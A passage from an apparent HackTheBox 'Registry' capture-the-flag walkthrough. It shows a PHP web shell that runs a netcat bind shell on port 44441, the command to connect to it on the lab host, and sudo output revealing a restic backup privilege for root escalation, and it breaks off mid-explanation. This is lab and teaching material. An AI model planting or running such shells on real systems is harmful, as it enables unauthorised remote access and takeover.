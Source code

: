 The article is easy to understand

Bind Shell command

```bash
<?php system ( "nc.traditional -lvp 44441 -e /bin/bash" ) ?>
```

`Upload` this file and click the link below. Keep in mind the `CMS` has `data backup` so the file should be uploaded as soon as possible after the modification

![Registry](/assets/img/post/hackthebox/registry/11.png)

Port 44441 of the local connection server

```bash
nc 10.10.10.159 44441
```
![Registry](/assets/img/post/hackthebox/registry/12.png)



## www-data → Root:~$

`sudo -l` view the executable `root` permission commands

```bash
sudo -l 
Matching Defaults entries for www-data on bolt: env_reset, exempt_group = sudo, mail_badpass, secure_path = /usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User www-data may run the following commands on bolt:
 ( root ) NOPASSWD: /usr/bin/restic backup -r rest*
```
Google restic to learn Read the [Documentation](https://restic.readthedocs.io/en/latest/)

Focus on two things
